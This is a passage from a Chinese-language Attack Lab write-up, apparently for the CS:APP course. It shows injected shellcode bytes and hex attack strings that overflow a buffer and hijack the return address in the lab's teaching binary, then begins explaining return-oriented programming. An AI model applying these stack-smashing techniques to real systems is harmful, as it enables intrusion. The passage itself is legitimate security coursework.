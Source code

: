 **注意**：

1. 字符串应该放在函数`test()`的栈帧中，因为当前`getbuf()`的栈帧会在未来调用其他函数时被覆写；

2. 将字符串移入运行时栈中时，我们只能以`32`位为单位移动，这是因为`movq`只能以表示为`32`位补码的数字的立即数作为源操作数，经符号扩展到`64`位传入到目的；而`movabs`虽然可以以`64`位立即数作为源，但只能以寄存器为目的；此外，我们不能使用`movb`，`movw`或`movl`移动，因为这样产生的exploit code会超出`test()`栈帧的大小；
3. 这里采用了`lea`指令将字符串首地址加载到`%rdi`中，也可以用gdb得到字符串首地址具体的地址，用`mov`操作，但这样做显得舍近求远；
4. 注意把`cookie`字符串传入栈的顺序，字符串的第一个字符到最后一个字符在栈中是从低地址到高地址，且勿忘记字符串结尾的`'\0'`。

接下来要做的工作与Phase 2相同，得到了最后要输入的字符串：

```plaintext
48 c7 44 24 30 35 39 62 /* <- exploit code */
39 48 c7 44 24 34 39 37
66 61 c6 44 24 38 00 48 
8d 7c 24 30 68 fa 18 40
00 c3 00 00 00 00 00 00
78 dc 61 55 00 00 00 00	/* 返回后 跳转到exploit code的地址 */
```

----

此外，还有一种可选的思路，`cookie`字符串通过Stack smash写入`test()`的栈帧中。

exploit code要做的只有后两项，汇编代码即为

```assembly
movq    %rsp, %rdi
push    $0x00000000004018fa
ret
```

这里`movq %rsp, %rdi`是因为我们将会在返回值的“上一行”覆写字符串，而这正好是执行exploit code时`%rsp`指向的位置。当然也可以用gdb得到字符串首地址具体的地址。

攻击字符串如下：

```plaintext
48 8d 7c 24 00 68 fa 18 /* <- exploit code */
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00	/* pad */
78 dc 61 55 00 00 00 00 /* 返回后 跳转到exploit code的地址 */
/* 在返回值的'上一行'插入cookie的16进制表示，这正好是执行exploit code时%rsp指向的位置 */
35 39 62 39 39 37 66 61
00						/* hex representation of cookie */
```



### 4. Phase 4：Return-Oriented Programming Attack

阅读实验文档第5部分，rtarget使用了两项技术来提升代码安全性。

1. 运行时栈位置随机化，这使得我们无法确定exploit code的位置，从而无法覆写返回地址使程序跳转到exploit code。
2. 将栈内存标记为不可执行，即使我们能够设置程序计数器指向exploit code的起始位置，程序也会报segmentation fault。

但是程序中的指令序列在内存中的位置每次运行时是固定的。`gadget`是已有程序中的一段指令序列，是对程序中的指令的”再利用“，通过截取已有指令序列，执行与这段序列原意图不同的操作。
